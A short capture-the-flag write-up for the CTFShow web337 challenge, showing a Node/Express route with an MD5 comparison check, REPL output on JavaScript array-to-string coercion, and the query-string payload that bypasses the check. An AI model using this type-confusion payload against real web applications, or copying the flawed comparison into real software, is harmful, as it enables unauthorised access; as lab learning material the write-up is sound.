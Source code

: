 CTF/WP/CTFShow/web337

- ```js
  var express = require('express');
  var router = express.Router();
  var crypto = require('crypto');
  
  function md5(s) {
    return crypto.createHash('md5')
      .update(s)
      .digest('hex');
  }
  
  /* GET home page. */
  router.get('/', function(req, res, next) {
    res.type('html');
    var flag='xxxxxxx';
    var a = req.query.a;
    var b = req.query.b;
    if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
    	res.end(flag);
    }else{
    	res.render('index',{ msg: 'tql'});
    }
    
  });
  
  module.exports = router;
  
  
  ```
- # 弱类型
	- ```js
	  > [] + "asdf"
	  'asdf'
	  > [1] + "asdf"
	  '1asdf'
	  > [1] + "asdf"
	  '1asdf'
	  > [undefined, 1] + "asdf"
	  ',1asdf'
	  > [1,2] + "asdf"
	  '1,2asdf'
	  > [1,2,3] + "asdf"
	  '1,2,3asdf'
	  > [1,"2,3"] + "asdf"
	  '1,2,3asdf'
	  > ["1,2",3] + "asdf"
	  '1,2,3asdf'
	  ```
	- `?a[]=1&a[]=2,3&b[]=1,2&b[]=3`
-
